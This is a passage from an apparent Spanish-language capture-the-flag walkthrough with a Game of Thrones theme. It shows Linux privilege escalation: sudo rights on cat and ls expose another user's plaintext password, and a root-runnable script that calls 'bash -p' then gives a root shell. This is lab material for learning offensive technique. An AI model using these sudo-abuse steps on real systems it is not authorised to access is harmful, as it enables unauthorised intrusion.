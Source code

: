 Vemos si el usuario tiene permisos SUDO:
   ```bash
aria@111d02563ea1:/home/jon$ sudo -l
Matching Defaults entries for aria on 111d02563ea1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User aria may run the following commands on 111d02563ea1:
    (daenerys) NOPASSWD: /usr/bin/cat, /usr/bin/ls
```

Vemos **bash** con permisos SUDO :
   ```bash
aria@111d02563ea1:/home$ sudo -u daenerys ls daenerys/
mensajeParaJon
aria@111d02563ea1:/home$ sudo -u daenerys cat daenerys/mensajeParaJon
Aria estare encantada de ayudar a Jon con la guerra en el norte, siempre y cuando despues Jon cumpla y me ayude a  recuperar el trono de hierro. 
Te dejo en este mensaje la contraseña de mi usuario por si necesitas llamar a uno de mis dragones desde tu ordenador.

!drakaris!
```

YA ESTAMOS COMO DAENERYS.

Vemos si el usuario tiene permisos SUDO:
   ```bash
daenerys@111d02563ea1:/home$ sudo -l
Matching Defaults entries for daenerys on 111d02563ea1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User daenerys may run the following commands on 111d02563ea1:
    (ALL) NOPASSWD: /usr/bin/bash /home/daenerys/.secret/.shell.sh
```

Vemos **bash** con permisos SUDO :
   ```bash
daenerys@111d02563ea1:/home$ cat /home/daenerys/.secret/.shell.sh 
exec bash -p
daenerys@111d02563ea1:/home$ sudo -l
Matching Defaults entries for daenerys on 111d02563ea1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User daenerys may run the following commands on 111d02563ea1:
    (ALL) NOPASSWD: /usr/bin/bash /home/daenerys/.secret/.shell.sh
daenerys@111d02563ea1:/home$ sudo /usr/bin/bash /home/daenerys/.secret/.shell.sh
root@111d02563ea1:/home# whoami
root
root@111d02563ea1:/home# 
```

**YA ESTAMOS COMO ROOT.**